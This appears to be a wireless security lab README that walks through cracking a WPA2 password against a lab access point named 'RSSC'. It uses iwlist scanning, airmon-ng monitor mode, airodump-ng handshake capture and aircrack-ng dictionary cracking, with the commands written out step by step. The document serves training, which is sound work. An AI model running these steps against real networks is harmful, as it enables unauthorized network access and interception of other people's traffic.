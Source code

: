 # RSSC2018-Wireless-Lab

## Air Monitor
Here we will walk through the process of cracking a WPA2 password.

1. The iwconfig command will show any wireless cards in the system. 
```bash
iwconfig
```
   The operating system recognizes a wireless interface named wlan0.

2. Enable the wireless interface.
```bash
ifconfig wlan0 up
```

3. Force the wireless card to scan and report on all wireless networks in the area. The SSID you are trying to target for this lab is named ‘RSSC’. You need the MAC address and the channel that this AP is transmitting on.
```bash
iwlist wlan0 scanning
```

Next, we need to change the wireless card to monitoring mode. We do this by creating a monitor interface using airmon-ng. 

4. Verify airmon-ng sees your wireless card.
```bash
airmon-ng 
```

5. Change the wireless card to monitoring mode. This will allow the wireless card to examine all the packets in the air.
```bash
airmon-ng start wlan0
```

6. Run the ifconfig command to verify the monitor interface is created. 
```bash
ifconfig 
```
We can see wlan0mon was created.

7. Use airodump-ng to capture the WPA2 handshake. The attacker will have to catch someone in the act of authenticating to get a valid capture. Airodump-ng will display a valid handshake when it captures it. It will display the handshake confirmation in the upper right-hand corner of the screen. Run this command for 15 seconds and then break out of it using ‘ctrl + C’.
```bash
airodump-ng wlan0mon –bssid <mac-address> --channel <channel> –write <filename>
```
## Password Cracking
8. We will use aircrack-ng with the dictionary file to crack the password. 
```bash
aircrack-ng <filename>.cap -a 2 -w <dictionary path>
```

